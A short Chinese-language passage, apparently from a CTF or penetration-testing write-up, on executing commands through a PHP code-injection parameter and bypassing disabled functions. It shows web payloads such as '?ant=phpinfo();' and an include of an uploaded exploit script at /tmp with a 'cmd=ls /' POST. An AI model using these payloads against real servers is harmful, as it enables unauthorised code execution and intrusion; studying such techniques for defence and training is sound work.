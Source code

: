 ```php
?ant=phpinfo();
```

![image-20211126234136906](image/命令执行/image-20211126234136906.png)

首先我们下载利用脚本：https://github.com/mm0r1/exploits/tree/master/php-json-bypass

下载后，像之前那样对脚本稍作修改：

![image-20211126234226701](image/命令执行/image-20211126234226701.png)

将脚本像之前那样上传到有权限的目录（/tmp/exploit.php）后包含执行即可：

```php
/?ant=include("/tmp/exploit.php");
POST: cmd=ls /
```

